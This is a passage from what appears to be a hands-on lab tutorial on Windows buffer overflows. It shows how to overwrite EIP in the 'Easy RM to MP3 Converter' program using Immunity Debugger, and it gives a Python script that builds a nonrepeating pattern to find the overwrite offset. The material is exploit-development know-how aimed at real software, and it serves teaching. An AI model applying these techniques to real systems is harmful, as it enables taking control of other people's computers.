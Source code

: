 - This is what we needed--a classic buffer overflow. Some of the "A" characters ended up in the EIP, as the address of the next instruction to be executed, so we have a wayto take control of the computer.

#### Restarting Immunity and "Easy RM to MP3 Converter"

- Close Immunity.
- Launch Immunity with Administrator privileges.
- In Immunity, click File. In the lower section, click item 1: "C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe", as shown below.
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/17.png)
- Click the Run button.

#### Creating a Nonrepeating Pattern of Characters

- We know that the four bytes that end up in the EIP are somewhere between 20,000 and 30,000 characters into the file.
- So we need to send 20,000 'A' characters followed by a series of 2,500 nonrepeating groups of four characters.
- A simple way to do that is to start with a letter from A to Y, repeated twice, and then use two digits from 00 to 99, like this (spaces added for clarity).
  ```bash
  AA00 AA01 AA02 ... AA98 AA99 
  BB00 BB01 BB02 ... BB98 BB99 
  ...
  PP00 ... PP22 PP23 ... PP99 
  ...
  YY00 YY01 YY02 ... YY98 YY99
  ``` 
- On your Kali Linux machine, in a Terminal window, execute this command
  ```bash
  nano ezm-eip0
  ```
- In the nano window, type or paste this code.
  ```python
  #!/usr/bin/python
  chars = ''
  for a in range(0x41, 0x5A):
    for i in range(0x30, 0x3A):
      for j in range(0x30, 0x3A):
        chars += chr(a) + chr(a) + chr(i) + chr(j)
  print chars
  ```